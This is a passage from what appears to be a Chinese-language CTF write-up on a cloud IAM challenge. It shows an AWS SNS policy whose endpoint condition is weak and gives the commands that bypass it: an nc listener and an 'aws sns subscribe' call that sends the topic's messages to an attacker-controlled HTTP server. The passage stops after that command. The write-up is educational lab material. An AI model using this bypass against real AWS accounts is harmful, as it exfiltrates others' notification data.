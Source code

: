 ```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

这个 Policy 允许 Endpoint 结尾是 @tbic.wiz.io 的人拥有这个 SNS 服务的 Subscribe 权限。

SNS（Simple Notification Service）可以帮助开发人员向移动设备、电子邮件、消息队列等多种终端发送通知消息，让你能够轻松地向用户传递重要信息和实时更新。简单来说，SNS 就像是一个消息广播系统，让你能够快速、可靠地将消息发送给订阅者，确保他们及时收到你发送的通知。

AWS CLI 中的 SNS Subscribe 功能里需要指定协议、通知端点以及 ARN，在 Policy 中我们已经知道 ARN 了，接下来就需要去构造一个通知端点，而且这个通知端点需要以 @tbic.wiz.io 结尾。

```bash
> aws sns subscribe help

subscribe
--topic-arn <value>
--protocol <value>
[--notification-endpoint <value>]
```

查阅官方文档可以知道，通知协议支持 HTTP、HTTPS、EMAIL、SMS、SQS 等等，这里我们可以构造一个 HTTP 的通知端点，例如 [http://123.123.123.123:800/@tbic.wiz.io](http://123.123.123.123:800/@tbic.wiz.io)，这样就符合这个 Policy 里的条件了，然后当我们执行订阅命令时，就会收到来自对方的消息。

那么先在自己的服务器上，使用 NC 监听一个端口。

```bash
nc -lvk 80
```

然后执行以下命令：

```bash
aws sns subscribe --protocol http --notification-endpoint http://123.123.123.123:800/@tbic.wiz.io --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications
```
